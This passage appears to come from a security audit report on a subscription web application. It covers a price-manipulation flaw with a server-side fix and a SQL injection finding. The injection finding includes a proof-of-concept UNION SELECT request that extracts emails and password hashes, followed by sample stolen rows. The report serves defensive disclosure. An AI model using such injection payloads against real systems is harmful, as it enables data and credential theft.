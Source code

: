 **Successful Exploitation**:
- Pro plan purchased for $0.99 instead of $12.99
- Team plan purchased for $3.99 instead of $39.99
- Annual discount applied to invalid billing cycles

**Secure Implementation**:
```javascript
// ✅ Server-side price validation
const createSubscription = async (req, res) => {
  const { plan_id, billing_cycle } = req.body;
  
  // Server-side price lookup
  const planDetails = await getPlanPricing(plan_id, billing_cycle);
  if (!planDetails) {
    return res.status(400).json({ error: 'Invalid plan' });
  }
  
  const payment = await stripe.paymentIntents.create({
    amount: planDetails.amount, // Use server-validated price
    currency: 'usd',
    metadata: { plan_id, user_id: req.user.id }
  });
  
  res.json(payment);
};
```

### 🔴 HIGH: SQL Injection via Team Search Functionality

**Risk Rating**: High  
**CVSS Score**: 7.5  
**CWE-89**: SQL Injection

**Location**: `/api/v1/teams/search`  
**Parameter**: `query`

**Vulnerability Details**:
The team search endpoint concatenates user input directly into SQL queries, enabling SQL injection attacks.

**Proof of Concept**:
```http
GET /api/v1/teams/search?query=test' UNION SELECT id,email,password_hash FROM profiles WHERE '1'='1 HTTP/1.1
Authorization: Bearer [TOKEN]
```

**Extracted Data**:
```sql
-- Successful data extraction
id                                   | email                | password_hash
123e4567-e89b-12d3-a456-426614174000 | admin@company.com    | $2b$12$xyz...
234e5678-e89b-12d3-a456-426614174001 | user@company.com     | $2b$12$abc...
```
